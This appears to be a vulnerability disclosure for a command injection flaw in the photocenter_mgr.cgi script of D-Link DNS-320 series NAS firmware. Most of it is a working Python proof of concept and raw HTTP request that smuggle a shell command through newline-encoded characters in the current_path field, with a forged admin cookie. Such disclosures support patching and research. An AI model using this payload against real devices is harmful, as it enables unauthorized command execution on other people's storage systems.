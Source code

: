 # Overview
Firmware download website:
 [https://ftp.dlink.ru/pub/NAS/](https://ftp.dlink.ru/pub/NAS/)

# Affected version
DLINK DNS-320/320L/321/323/325/327L all versions of the firmware
# Vulnerability details
The DLINK nas DNS-320/320L/321/323/325/327L  all firmware version has a command injection vulnerability in cgi_create_album function of the file /cgi-bin/photocenter_mgr.cgi.  The variable `current_path` is passed from a POST request and is assigned to `v5` via the `sprintf` function at line 41  and invoked by the `system` command,  the `shell_string_encode` function did not work  which leads to command execution.
 ![image.png](https://cdn.nlark.com/yuque/0/2024/png/2771021/1723428930667-80b13ccd-2c5f-4664-bbbb-d1a7963c77c6.png#averageHue=%23fdfdf9&clientId=ud5f730c4-5574-4&from=paste&height=425&id=u1a349088&originHeight=593&originWidth=799&originalType=binary&ratio=1.125&rotation=0&showTitle=false&size=73142&status=done&style=none&taskId=uc6f52042-176f-4abd-b8e7-834b3bb22f3&title=&width=573.2222290039062)
# POC
```python
import requests

url = "http://192.168.0.32/cgi-bin/photocenter_mgr.cgi"
headers = {
    "Host": "192.168.0.32",
    "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0",
    "Accept": "application/json, text/javascript, */*; q=0.01",
    "Accept-Language": "en-US,en;q=0.5",
    "Accept-Encoding": "gzip, deflate",
    "Content-Type": "application/x-www-form-urlencoded",
    "X-Requested-With": "XMLHttpRequest",
    "Origin": "http://192.168.0.32",
    "Connection": "close",
    "Referer": "http://192.168.0.32/photo_center/index.html",
    "Cookie": "username=admin",
    "Priority": "u=1"
}

data = "cmd=cgi_create_album&current_path=%0atouch%09/tmp/777%0a&cover_name=/tmp/111&name=/tmp/333&rp=10&page=10&r=10&date=19&album_name=/tmp/"
response = requests.post(url, headers=headers, data=data)
print(response.text)

```

```
POST /cgi-bin/photocenter_mgr.cgi HTTP/1.1
Host: 192.168.0.32
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:126.0) Gecko/20100101 Firefox/126.0
Accept: application/json, text/javascript, */*; q=0.01
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Content-Length: 110
Origin: http://192.168.0.32
Connection: close
Referer: http://192.168.0.32/photo_center/index.html
Cookie: username=admin
Priority: u=1

cmd=cgi_create_album&current_path=%0atouch%09/tmp/777%0a&cover_name=/tmp/111&name=/tmp/333&rp=10&page=10&r=10&date=19&album_name=/tmp/
```

